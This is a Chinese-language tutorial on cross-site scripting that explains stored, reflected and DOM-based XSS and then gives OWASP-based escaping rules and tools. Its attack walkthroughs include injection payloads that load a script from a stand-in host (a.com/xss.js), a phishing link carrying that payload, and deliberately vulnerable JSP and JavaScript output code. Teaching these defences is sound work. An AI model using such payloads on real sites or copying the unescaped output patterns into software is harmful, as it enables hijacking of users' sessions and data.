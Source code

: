 跨站脚本攻击(XSS - Cross Site Scripting)
==原理==
Web程序将数据直接作为HTML显示（未进行HTML特殊字符转义、script脚本过滤），在浏览器端显示的这些内容的时候，激活其中包含的JavaScript恶意脚本，这些脚本可以用来获取用户敏感信息，追踪用户浏览历史、将用户诱导至其他网站等。

==分类==


<table>
  <tr>
    <th></th>
    <th colspan="3">风险代码存在于？</th>
  </tr>
  <tr>
    <th></th>
    <th>数据库中</th>
    <th>HTTP响应中</th>
    <th>浏览器构建的DOM中</th>
  </tr>
  <tr>
    <td>Stored XSS Attacks</td>
    <td>Yes</td>
    <td>Yes</td>
    <td>Yes</td>
  </tr>
  <tr>
    <td>Reflected XSS Attacks</td>
    <td></td>
    <td>Yes</td>
    <td>Yes</td>
  </tr>
  <tr>
    <td>DOM Based XSS</td>
    <td></td>
    <td></td>
    <td>Yes</td>
  </tr>
</table>



===Stored XSS Attacks===
风险代码被先持久存储于服务器上（比如：数据库中），然后再读取出来显示到浏览器。比如在博客上发表文章、发表评论。

攻击流程示例：
<ol>
<li>恶意用户A发现某个博客系统B对博文的评论未做严格检查，而允许注入Javascript代码。</li>
<li>恶意用户A找到一个知名度高的一篇访问量大的博文，发表以下评论代码：
<source>
<script src="http://a.com/xss.js"></script>
楼主的帖子实在是写得太好了。文笔流畅,修辞得体,深得魏晋诸朝遗风,
更将唐风宋骨发扬得入木三分,能在有生之年看见楼主的这个帖子。
实在是我三生之幸啊。......
</source>
</li>
<li>博客系统B使用以下方式显示回帖（JSP语法）：
<source>
回帖人：<%=comment.userId %>，回帖内容是：<%= comment.content %>
</source>
</li>
<li>后果：每个读此博文并看到该评论的受害者都会加载并执行其中的恶意代码。</li>
</ol>

===Reflected XSS Attacks===
风险代码并没有被持久存储，而是在服务器端转了一圈之后就直接显示在生成的动态HTML中。
这种攻击方式常被以HTML邮件的方式发送给潜在受害者。

攻击流程示例：
<ol>
<li>恶意用户A搜索、验证并确信某系统B在访问 <code>http://b.com/welcome.do?user=zhang3</code> 时，是以以下方式显示URL中的用户名的（JSP语法）：
<source>
 welcome <%=param["user"] %>!
</source>
</li>
<li>恶意用户A就利用此漏洞，以系统B的名义向多个用户发送包含以下连接的HTML邮件，并诱导用户点击该链接：
<source>
{系统B}温馨提醒您：XXX 想加您好友，请点击
<a href="http://b.com/welcome.do?user=zhang3<script src='http://a.com/xss.js'></script>">此处</a>
进行处理！
</source>
</li>
<li>后果：受害者在阅读该邮件并点击此链接后，在浏览系统B的欢迎画面时，就会加载并执行来自于 a.com 的恶意脚本</li>
</ol>


===DOM Based XSS===
这种方式与 Reflected XSS Attacks 比较相似，但区别在于：在Reflected XSS Attacks 中，恶意代码时有缺陷的系统在返回给浏览器端之间就加入到生成的HTML中了（比如通过JSP、PHP等）；而在 DOM Based XSS 中，恶意代码是在浏览器端通过有缺陷的JavaScript代码在动态修改DOM树时加入的。

也即，在 Reflected XSS Attacks 的攻击流程示例的第二步中的代码替换为以下方式：
<source>
 welcome <script>
document.write(document.location.href.substring(document.location.href.indexOf("user=")+5));
</script>!
</source>

与前两种的区别是：前两种最终会将风险代码写在生成HTML中，而这一种是服务器端返回的HTML本身并不包含风险代码，但是其中的JavaScript脚本在动态修改DOM时，未对输出值做充分的安全检查。


注入点
1. 客户端：来自用户输入，却未作安全检查。

<source>
<img src="https://www.owasp.org/skins/monobook/ologo.png" onload="alert('XSS');" >
</source>
2.
2. 服务器端：来自配置文件，却未作安全检查（比如消息模板，头部文件）

DOM Based XSS
  你的程序本身存在一些依赖于来自于客户端的数据并展示，但是对来源数据为做安全检查。



==防范XSS==
在Web应用中，XSS缺陷很难确认和移除，一些漏洞扫描工具也只能对浅层的扫描。最好的方式就是针对安全展开代码Review，并对所有来自HTTP请求的数据进行检查，如果请求中的数据有可能最终作为HTML显示，就需要做相应的处理。

==检查列表==
这里仅仅给出了部分摘要，更详尽列表请参看[https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet 这里]：
<ul>
<li>RULE #0 - 不信任的数据只能插入到允许的位置
<p> 示例代码：
<source>
  <script>...NEVER PUT UNTRUSTED DATA HERE...</script>   直接放到script中
  &lt;!--...NEVER PUT UNTRUSTED DATA HERE...-->             在HTML注释中
  <div ...NEVER PUT UNTRUSTED DATA HERE...=test />       在属性名中
  <NEVER PUT UNTRUSTED DATA HERE... href="/test" />      在标签名中
  <style>...NEVER PUT UNTRUSTED DATA HERE...</style>     直接在CSS中
</source>
</p>
</li>

<li>RULE #1 - 插入HTML内容时要先转义
HTML特殊字符转义
<source>
 &amp; --&gt; &amp;amp;
 &lt; --&gt; &amp;lt;
 &gt; --&gt; &amp;gt;
 &quot; --&gt; &amp;quot;
 &#x27; --&gt; &amp;#x27;
 / --&gt; &amp;#x2F; 这里包含了斜杠，因为它在结束一个标签时有用
</source>
</li>

<li>RULE #2 - 插入标签的属性值前要先转义

</li>

<li>RULE #3 - 将不信任的数据插入到JavaScript前要先转义</li>
<li>RULE #3.1 - 在HTML中对JSON的值进行HTML转义，以及使用 JSON.parse 读取数据</li>
<li>RULE #4 - 对CSS转义，以及对HTML元素的sytle设置值前要进行充分的检查</li>
<li>RULE #5 - 在插入URL数据前要先URL转义</li>
<li>RULE #6 - 在输出用户输入的HTML内容时，要使用HTML策略引擎进行验证或移除其中的风险代码</li>
<li>RULE #7 - 要预防 DOM-based XSS</li>
<li>RULE #8 - 使用 [https://www.owasp.org/index.php/HTTPOnly HTTPOnly cookie]</li>


</ul>
==DOM Based XSS 检查列表==
[https://www.owasp.org/index.php/DOM_based_XSS_Prevention_Cheat_Sheet 参考]
<ul>
<li>RULE #1 - 在可以执行JavaScript的环境中，要对不信任的数据先 HTML 转义，再 JavaScript 转义</li>
<li>RULE #2 - 在可以执行JavaScript的环境中，为HTML元素的属性设置值前要先进行 JavaScript 转义</li>
<li>RULE #3 - 在可以执行JavaScript的环境中，设置事件处理函数等地方需要特别注意</li>
<li>RULE #4 - 在插入CSS属性时需要先进行 JavaScript 转义</li>
<li>RULE #5 - 在插入URL前要先进行URL转义</li>
</ul>

==工具==
* [https://www.owasp.org/index.php/Category:OWASP_AntiSamy_Project OWASP AntiSamy]
* [http://www.cirt.net/nikto2 Nikto2] - 开源的Web服务器扫描工具
* [http://www.tenable.com/products/nessus nessus] - 漏洞扫描工具
* [http://wpl.codeplex.com/ Microsoft Web Protection Library] - .Net 平台下的安全工具
* [http://msdn.microsoft.com/en-us/library/ms972969.aspx#securitybarriers_topic6 ValidateRequest] - .Net 平台内建功能，可以提供部分安全保护措施
* [https://www.owasp.org/index.php/ESAPI OWASP ESAPI] - OWASP Enterprise Security API

参考：
* [https://www.owasp.org/index.php/Cross-site_Scripting_(XSS) Cross site Scripting ]
* [https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet XSS Filter Evasion Cheat Sheet]

Cross-Site Request Forgery (CSRF)
